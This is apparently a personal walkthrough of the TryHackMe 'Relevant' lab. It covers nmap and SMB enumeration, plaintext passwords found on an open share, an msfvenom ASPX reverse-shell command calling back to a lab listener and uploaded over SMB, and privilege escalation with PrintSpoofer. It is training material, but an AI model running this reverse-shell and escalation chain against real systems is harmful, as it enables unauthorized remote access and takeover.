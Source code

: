 ## Relevant
---
THM Relevant Room Walkthrough: https://tryhackme.com/room/relevant



## Summary
---
- nmap
- smb share open --> nt4wrksv
- passwords.txt
- port 49663 open --> subdomain /nt4wrksv accessible
- smb allows for upload and download of files (get/put) --> can upload a reverse shell and then access through browser
- catch reverse shell --> user flag
- find user flag
- check whoami & whoami /priv --> SeImpersonatePrivilege enabled is a major security concern
- use JuicyPotato or PrintSpoofer to escalate
- Upload [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and run as instructed
- whoami --> 



## Difficulties/Lessons Learned
---
- Main difficulty on this room was the long enum time for subdirectories and the system constantly freezing
- learning about PrintSpoofer and User Priv in Windows



## Walkthrough
---
Let's first begin by enumerating the machine with nmap. We will run nmap with

```bash
nmap -sS -sV -sC -Pn  <TARGET_IP>
```

![](attachments/Screenshot%202025-02-01%20160003.png)

We can see we have 5 open ports. It's good to keep in mind we only scanned the default number of ports with nmap, which by default should be the 1000 most popular ports.

The 3 most interesting ports we have here are 80, 445, and 3389. (Webserver, SMB shares, RDP access)

Let's start by looking into these. The webserver seems to host this page: 

![](attachments/Screenshot%202025-02-01%20160429.png)

The first thing I think of when I see this and port 445 open is a possible EternalBlue exploit depending on the version of Windows Server.

The only other thing on this website is a link to https://www.iis.net/?utm_medium=iis-deployment with no other interesting information. There may also be something hidden in the image, but let's not get too deep.

Let's check the SMB port, 445. We will use smbclient with the command

```bash
smbclient -L //10.10.71.74
```

We see we have some shares available. We have 3 hidden shares indicated by the $ and then a regular share. 

![](attachments/Screenshot%202025-02-01%20161102.png)

Let's try to connect to them anonymously without passing a -U (User) param.

![](attachments/Screenshot%202025-02-01%20161728.png)

I was able to connect to the IPC share and the last share. I would not expect to find anything in the IPC share because it's used for Inter-Process Communication and not file storage. What's interesting is we were able to see that the last share nt4wrksv actually has a file in it. Let's download it and check it out.

![](attachments/Screenshot%202025-02-01%20162800.png)

We see that we have some encoded passwords. It looked like Base64 was used to encode them so let's decode them to see if we have anything here.

![](attachments/Screenshot%202025-02-01%20163104.png)

We get a username and some passwords! 

```bash
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123 
```

The only place I can think to use them is RDP since that port is also open. Let's try. 

RDP does not seem to work with either password and just fails or freezes.

![](attachments/Pasted%20image%2020250201170439.png)

At this point I was feeling a bit stuck. Let's maybe try to enum the subdirectories and then let's look at SMB again. Maybe we can exploit something there. 

Running Gobuster gives us nothing interesting in terms of directories and takes very long. I used directory-list-2.3-medium.txt

The machine became unresponsive which was common in this lab and I had to restart it. I ran MS17-010 SMB RCE Detection to see if maybe the system is vulnerable to EternalBlue. The result told me that the host is likely vulnerable to it, so I tried running EternalBlue.

![](attachments/Pasted%20image%2020250201172528.png)

It did not work and again froze the system. 

The only thing I can think of is to nmap all the ports instead of just the 1000 most popular ports. This also takes very long.

![](attachments/Pasted%20image%2020250201174152.png)

Interesting find. We have 3 extra ports that we missed. We have a webserver at 49663. Let's see what we can find if we go to it in a browser.

Weird. It takes us to the same page. Let's just try to check the other ports as well. I would not expect to find anything since they are RPC ports according to nmap.

![](attachments/Pasted%20image%2020250201192451.png)

As expected the other 2 ports don't resolve.

The image takes us to the same link as the last image and other than the port, it looks identical to the page on port 80. Let's try to enumerate subdirectories with the new port.

This box is extremely slow and freezes often, requiring reboots. I found a subdirectory matching the SMB share (/nt4wrksv) that loads an empty page. Since it may access the same directory, I checked for passwords.txt via the browser—and it worked. If I can upload files, I might get a reverse shell. Time to generate and upload one.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.101.68 LPORT=4444 -f aspx -o rev.aspx
```

Generated a rev shell with MSFVenom. We know it's a windows server using IIS, we should maybe be able to use aspx, asp, or php.Uploading this with the smbclient and accessing this through the web server. Setting up an nc listener on port 444.

```bash
smbclient //10.10.219.157/nt4wrksv
put rev.aspx
exit

nc -lvp 4444
```

Accessing the webserver with the rev shell takes a second, but we are in!

![](attachments/Pasted%20image%2020250201195449.png)
 
 Navigating to the Users directory and then Bob>Desktop gives us our first flag!

![](attachments/Pasted%20image%2020250201195710.png)

Checking whoami and whoami /priv we get 

![](attachments/Pasted%20image%2020250201202051.png)

The SeImpersonatePrivilege Priv being enabled is a major issue based on my research. We can use something like JuicyPotato or PrintSpoofer to escalate. Let's try Printspoofer since we can easily upload files with SMB.

![](attachments/Pasted%20image%2020250201203400.png)

Priv has been escalted. Found the root flag in C:\Users\Administrator\Desktop\root.txt

![](attachments/Pasted%20image%2020250201203643.png)


